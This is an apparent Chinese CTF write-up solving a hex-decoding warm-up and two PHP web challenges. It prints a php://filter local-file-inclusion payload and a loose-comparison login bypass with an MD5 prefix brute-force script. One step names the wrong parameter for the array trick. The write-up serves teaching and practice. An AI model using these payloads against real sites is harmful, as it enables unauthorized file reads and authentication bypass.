






## 热身签到
简单的密码题
```
54515552545455515456547055555566545654495548554855575370515051485150515453705555545755525456537054515551515051485150515450495568
```
就一串不知名字符串。发现两两组合可以是ascii字符，
```
54 51 55 52 54 54 55 51 54 56 54 70 55 55 55 66 54 56 54 49 55 48 55 48 55 57 53 70 51 50 51 48 51 50 51 54 53 70 55 55 54 57 55 52 54 56 53 70 54 51 55 51 51 50 51 48 51 50 51 54 50 49 55 68

```


然后16进制转字符即可

## Happy2026

```php
<?php
error_reporting(0);
highlight_file(__FILE__);


$happy = $_GET['happy'];
$new = $_GET['new'];
$year = $_GET['year'];

if($year==2026 && $year!==2026 && is_numeric($year)){
    include $happy[$new[$year]];
}

```
考察php特性。
if条件很好过，传入`?year=2026`即可：
1. `GET`传参会以字符串形式传入，`(String)2026==(int)2026`成立，不比较类型
2. `(String)2026!==(int)2026`，这里是强比较，要比较变量类型
3. 2026是数字字符串

通过if判断后我们要想怎么利用`include`
这里是一个嵌套数组，而不是二维数组
这里要知道，php中的数组和其他语言中有些区别，他有点像字典，是映射关系，下面是官方文档：

因为使用的是key对应的value，所以我们这里可以这样构造：
```php

$new = ["2026" => "1"];
$happy = ["1" => "1.txt"];
$a = $happy[$new[$year]];
var_dump($a);
include $a;


//string(5) "1.txt"
//nihao  #这是我自己的1.txt文件内容
```
最后就映射到了`1.txt`上，进行包含利用。
但是我们直接传入数组是不行的，要注意http中怎么传递数组的：
```http
?a[key1]=value1 & b[key2]=value2
```
最后要php伪协议读取`flag.php`
payload：
```http
?year=2026&happy[1]=php://filter/read=convert.base64-encode/resource=flag.php&new[2026]=1
```
##  SafePassword
```php
<?php

declare(strict_types=1);
session_start();
include "flag.php";
include "config.php";

const USER_NOT_FOUND       = 2000;
const USER_DISABLED        = 2003;
const CHANNEL_INVALID      = 2007;
const CHANNEL_EXPIRED      = 2011;
const CHANNEL_BLOCKED      = 2017;
const VERIFY_FAILED        = 2025;
const RATE_LIMITED         = 2033;
const PERMISSION_DENIED    = 2048;
const STATE_CONFLICT       = 2064;
const LENGTH_ERROR        = 0x52C0FE;

const ERROR_CODES = [
    USER_NOT_FOUND,
    USER_DISABLED,
    CHANNEL_INVALID,
    CHANNEL_EXPIRED,
    CHANNEL_BLOCKED,
    VERIFY_FAILED,
    RATE_LIMITED,
    PERMISSION_DENIED,
    STATE_CONFLICT,
    LENGTH_ERROR,
];

function ensureCsrf(): string
{
    if (!isset($_SESSION['csrf']) || !is_string($_SESSION['csrf']) || $_SESSION['csrf'] === '') {
        $_SESSION['csrf'] = bin2hex(random_bytes(16));
    }
    return $_SESSION['csrf'];
}

function requirePostCsrf(): void
{
    $csrf = $_POST['csrf'] ?? '';
    if (!is_string($csrf) || !isset($_SESSION['csrf']) || !is_string($_SESSION['csrf']) || !hash_equals($_SESSION['csrf'], $csrf)) {
        http_response_code(400);
        exit('Bad CSRF');
    }
}

function h(string $s): string
{
    return htmlspecialchars($s, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
}

function isLoggedIn(): bool
{
    return isset($_SESSION['authed']) && $_SESSION['authed'] === true;
}

function inErrorCodes(int $code): bool
{
    return in_array($code, ERROR_CODES, true);
}

function buildExpectedHash($channelKey): string
{
    try{
        if (!preg_match('/[\x00-\x08\x0B\x0C\x0E-\x1F]/', $channelKey) && strlen($channelKey) < 64) {
            return md5('ctfshow:' . $channelKey . ':verify' . $secret_salt);
        }else{
            throw new RuntimeException('', LENGTH_ERROR);
        }
    }catch(Throwable $e){
        throw new RuntimeException('', VERIFY_FAILED);
    }
       
}

function pickErrorCode(Throwable $e): int
{
    $code = (int)$e->getCode();
    if (inErrorCodes($code)) {
        return $code;
    }
    $idx = abs((int)crc32(get_class($e) . '|' . $e->getMessage())) % count(ERROR_CODES);
    return ERROR_CODES[$idx];
}

function getExpectedHash($channelKey)
{
    try {
        return buildExpectedHash($channelKey);
    } catch (Throwable $e) {
        return pickErrorCode($e);
    }
}

$flash = '';
$flashType = 'info';

$action = $_POST['action'] ?? ($_GET['action'] ?? '');
if (!is_string($action)) {
    $action = '';
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if ($action === 'login') {
        requirePostCsrf();

        $accessKey = $_POST['access_key'] ?? '';
        $channelKey = $_POST['channel_key'] ?? '';
        $expected = getExpectedHash($channelKey);

        if (md5($accessKey) == $expected) {
            $_SESSION['authed'] = true;
            $flash = '验证通过：已解锁资料权限。';
            $flashType = 'ok';
        } else {
            $_SESSION['authed'] = false;
            $flash = '验证失败：请检查访问密钥。';
            $flashType = 'err';
        }
    } elseif ($action === 'logout') {
        requirePostCsrf();
        $_SESSION = [];
        if (ini_get('session.use_cookies')) {
            $params = session_get_cookie_params();
            setcookie(session_name(), '', time() - 42000, $params['path'], $params['domain'], (bool)$params['secure'], (bool)$params['httponly']);
        }
        session_destroy();
        session_start();
        $flash = '已退出。';
        $flashType = 'info';
    }
}

$csrf = ensureCsrf();

$flagText = '请先登陆';
if (isLoggedIn()) {
    if (isset($flag) && is_string($flag) && $flag !== '') {
        $flagText = $flag;
    } else {
        $flagText = '';
    }
}

$templatePath = __DIR__ . '/template.html';
if (!is_file($templatePath)) {
    http_response_code(500);
    exit('Template missing');
}
$html = file_get_contents($templatePath);
if ($html === false) {
    http_response_code(500);
    exit('Template read error');
}

$authed = isLoggedIn();

echo strtr($html, [
    '{{CSRF}}' => h($csrf),
    '{{AUTHED}}' => $authed ? '1' : '0',
    '{{FLAG}}' => $authed ? h($flagText) : '',
    '{{FLASH_TYPE}}' => h($flashType),
    '{{FLASH_MSG}}' => h($flash),
]);

```
一道小小的代码审计，之前很少认真做代码审计，总是让ai帮我，这次好好看了一下：

首先把一些函数简单看一下，直接看业务逻辑。(看到登录验证部分就够了)：

我们这里先抓一个登录的包，我觉得这样比单纯看源码更容易理解。

这有可以直接看到所传过去的参数：
`csrf=31c0792ca3110d3f2b135f91597372dc`&`action=login`&`access_key=123`&`channel_key=COD`
一共4个参数，其中`access_key`和`channel_key`是我们输入的：

查看前端源码知道，csrf令牌是固定的

这样四个参数很容易就清楚了，我们回到登录逻辑的源代码：
```php
$flash = '';
$flashType = 'info';

$action = $_POST['action'] ?? ($_GET['action'] ?? '');
if (!is_string($action)) {
    $action = '';
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if ($action === 'login') {
        requirePostCsrf();

        $accessKey = $_POST['access_key'] ?? '';
        $channelKey = $_POST['channel_key'] ?? '';
        $expected = getExpectedHash($channelKey);

        if (md5($accessKey) == $expected) {
            $_SESSION['authed'] = true;
            $flash = '验证通过：已解锁资料权限。';
            $flashType = 'ok';
        } else {
            $_SESSION['authed'] = false;
            $flash = '验证失败：请检查访问密钥。';
            $flashType = 'err';
        }
    } elseif ($action === 'logout') {
        requirePostCsrf();
        $_SESSION = [];
        if (ini_get('session.use_cookies')) {
            $params = session_get_cookie_params();
            setcookie(session_name(), '', time() - 42000, $params['path'], $params['domain'], (bool)$params['secure'], (bool)$params['httponly']);
        }
        session_destroy();
        session_start();
        $flash = '已退出。';
        $flashType = 'info';
    }
}

```
这下我们可以直接看到怎么验证登录了。
```php
		
	$accessKey = $_POST['access_key'] ?? '';
        $channelKey = $_POST['channel_key'] ?? '';
        $expected = getExpectedHash($channelKey);

        if (md5($accessKey) == $expected) {
            $_SESSION['authed'] = true;
            $flash = '验证通过：已解锁资料权限。';
            $flashType = 'ok';
        } else {
            $_SESSION['authed'] = false;
            $flash = '验证失败：请检查访问密钥。';
            $flashType = 'err';
        }
```
会先给`channel_key`生成一个Hash，然后比较`md5(accessKey)`和这个Hash是不是相同。
我们注意到这里是一个弱比较`==`
ctf中经常靠php的弱比较，两个md5值就算要弱相等，我们会想到：
1. 直接相同字符串取md5
2. 低版本可以传入数组导致返回null
3. 科学计数法
但是我们注意这里并不是两个都是用`md5()`函数生成hash。我们跟进看一下
```php
function getExpectedHash($channelKey)
{
    try {
        return buildExpectedHash($channelKey);
    } catch (Throwable $e) {
        return pickErrorCode($e);
    }
}
```
继续跟进：
```php
function buildExpectedHash($channelKey): string
{
    try{
        if (!preg_match('/[\x00-\x08\x0B\x0C\x0E-\x1F]/', $channelKey) && strlen($channelKey) < 64) {
            return md5('ctfshow:' . $channelKey . ':verify' . $secret_salt);
        }else{
            throw new RuntimeException('', LENGTH_ERROR);
        }
    }catch(Throwable $e){
        throw new RuntimeException('', VERIFY_FAILED);
    }
       
}
```
他这里计算Hash有很复杂的脏数据，所以以上的通用绕过方法都不行了。但是这一个很明显的弱比较，我们思考是否有特定漏洞

我们再看看如果传入非法`channelKey`呢？（如数组）

会被捕获并触发：
```php
catch(Throwable $e){
        throw new RuntimeException('', VERIFY_FAILED);
    }
```
然后又会被捕获，进而触发：
```php
catch (Throwable $e) {
        return pickErrorCode($e);
    }
```
然后继续跟进：
```php
function pickErrorCode(Throwable $e): int
{
    $code = (int)$e->getCode();
    if (inErrorCodes($code)) {
        return $code;
    }
    $idx = abs((int)crc32(get_class($e) . '|' . $e->getMessage())) % count(ERROR_CODES);
    return ERROR_CODES[$idx];
}
```
如果有预定义的`$code`的话会直接return，我们看到源码最上面：
```php
const USER_NOT_FOUND       = 2000;
const USER_DISABLED        = 2003;
const CHANNEL_INVALID      = 2007;
const CHANNEL_EXPIRED      = 2011;
const CHANNEL_BLOCKED      = 2017;
const VERIFY_FAILED        = 2025;
const RATE_LIMITED         = 2033;
const PERMISSION_DENIED    = 2048;
const STATE_CONFLICT       = 2064;
const LENGTH_ERROR        = 0x52C0FE;

const ERROR_CODES = [
    USER_NOT_FOUND,
    USER_DISABLED,
    CHANNEL_INVALID,
    CHANNEL_EXPIRED,
    CHANNEL_BLOCKED,
    VERIFY_FAILED,
    RATE_LIMITED,
    PERMISSION_DENIED,
    STATE_CONFLICT,
    LENGTH_ERROR,
];
```
不就有预定义的code吗，这里就串起来了，只要我们传入数组导致异常，就会使`$expected`最终为`2025`。

然后就知道了：
```php
		$accessKey = $_POST['access_key'] ?? '';
        $channelKey = $_POST['channel_key'] ?? '';
        $expected = getExpectedHash($channelKey);

        if (md5($accessKey) == $expected) {
            $_SESSION['authed'] = true;
            $flash = '验证通过：已解锁资料权限。';
            $flashType = 'ok';
        } 
```
只需要：
1. 传`$_POST['access_key']`为数组导致报错，使`$expected`为`2025`
2. 传`$_POST['access_key']`为md5后为2025开头的字符串，后面是字母（如`2025abc`经过php弱比较解析会解析为`2025`）
所以就只要找到md5后是2025开头的就好了：
```python
import hashlib


def find_md5():
    i = 0
    print("正在搜索符合条件的字符串...")
    while True:
        # 将数字转为字符串进行尝试，你也可以尝试其他前缀
        text = str(i)
        # 计算 MD5
        md5_res = hashlib.md5(text.encode()).hexdigest()

        # 检查是否以 2025 开头
        if md5_res.startswith("2025"):
            # 检查第 5 位（索引为 4）是否不是数字
            if not md5_res[4].isdigit():
                print(f"\n找到匹配！")
                print(f"输入字符串: {text}")
                print(f"MD5 结果: {md5_res}")
                break

        i += 1

        print(f"已尝试 {i} 次...", end='\r')


if __name__ == "__main__":
    find_md5()
    
    
'''
正在搜索符合条件的字符串...
已尝试 434048 次...
找到匹配！
输入字符串: 434048
MD5 结果: 2025a5bcb774da5ad1746af26547e357
'''
```
最后要注意http怎么传数组哦！
